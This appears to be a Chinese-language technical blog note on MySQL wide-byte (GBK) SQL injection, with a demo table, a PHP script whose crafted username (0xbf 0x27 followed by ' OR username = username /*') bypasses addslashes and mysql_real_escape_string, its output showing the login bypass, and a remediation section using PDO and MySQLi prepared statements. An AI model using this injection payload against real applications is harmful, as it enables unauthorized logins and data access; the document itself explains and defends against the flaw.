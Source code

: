 ```yaml
---
title: "Mysql宽字节注入"
date: 2016-03-05 21:01
---
```


## mysql 宽字节注入

## 绕过`addslasher`和`mysql_real_escape_string`(Trick)

> 在MYSQL5.5.37-log下该Trick已经被修复了

demo as follow:

* mysql

``` 
mysql> create database test_gbk default charset GBK; 
Query OK, 1 row affected (0.00 sec)

mysql> use test_gbk;
Database changed

mysql> CREATE TABLE users (  
    username VARCHAR(32) CHARACTER SET GBK,  
    password VARCHAR(32) CHARACTER SET GBK,  
    PRIMARY KEY (username)  
); 
Query OK, 0 rows affected (0.53 sec)
  
mysql> insert into users SET username='t1', password='t123456';  
Query OK, 1 row affected (0.01 sec)  

mysql> insert into users SET username='t2', password='t223456';  
Query OK, 1 row affected (0.01 sec)
  
mysql> insert into users SET username='t3', password='t33456';  
Query OK, 1 row affected (0.01 sec) 
```

* php

```php
<?php  
echo "PHP version: ".PHP_VERSION."\n";  

# change as yours  
mysql_connect('servername','username','password');  

mysql_select_db("test_gbk");  
mysql_query("SET NAMES GBK");  
  
$_POST['username'] = chr(0xbf).chr(0x27).' OR username = username /*';  
$_POST['password'] = 'guess';  
  
$username = addslashes($_POST['username']);  
$password = addslashes($_POST['password']);  
$sql = "SELECT * FROM  users WHERE  username = '$username' AND password = '$password'";  
$result = mysql_query($sql) or trigger_error(mysql_error().$sql);  
  
var_dump(mysql_num_rows($result));  
var_dump(mysql_client_encoding());  
  
$username = mysql_real_escape_string($_POST['username']);  
$password = mysql_real_escape_string($_POST['password']);  
$sql = "SELECT * FROM  users WHERE  username = '$username' AND password = '$password'";  
$result = mysql_query($sql) or trigger_error(mysql_error().$sql);  
  
var_dump(mysql_num_rows($result));  
var_dump(mysql_client_encoding());  
  
mysql_set_charset("GBK");  
$username = mysql_real_escape_string($_POST['username']);  
$password = mysql_real_escape_string($_POST['password']);  
$sql = "SELECT * FROM  users WHERE  username = '$username' AND password = '$password'";  
$result = mysql_query($sql) or trigger_error(mysql_error().$sql);  
  
var_dump(mysql_num_rows($result));  
var_dump(mysql_client_encoding());  
```

run 

```
$php test_gbk.php

PHP version: 5.2.5  
int(3)  
string(6) "latin1"  
int(3)  
string(6) "latin1"  
int(0)  
string(3) "gbk"
```

使用addslashes还是mysql_real_escape_string,我都可以利用编码的漏洞来实现输入任意密码就能登录服务器的注入攻击！！！！

第三个mysql_real_escape_string之所以能够防注入是因为mysql_escape_string本身并没办法判断当前的编码，必须同时指定服务端的编码和客户端的编码，加上就能防编码问题的注入了

* 解决方案

使用拥有Prepared Statement机制的PDO和MYSQLi来代替mysql_query(注：mysql_query自 PHP 5.5.0 起已废弃，并在将来会被移除)：

PDO：

```php
$pdo = new PDO('mysql:dbname=dbtest;host=127.0.0.1;charset=utf8', 'user', 'pass');  
  
$pdo->setAttribute(PDO::ATTR_EMULATE_PREPARES, false);  
$pdo->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);  
$stmt = $pdo->prepare('SELECT * FROM employees WHERE name = :name');  
$stmt->execute(array('name' => $name));  
  
foreach ($stmt as $row) {  
    // do something with $row  
}  
```

MYSQLi：

```
$stmt = $dbConnection->prepare('SELECT * FROM employees WHERE name = ?');  
$stmt->bind_param('s', $name);  
  
$stmt->execute();  
  
$result = $stmt->get_result();  
while ($row = $result->fetch_assoc()) {  
    // do something with $row  
}  
```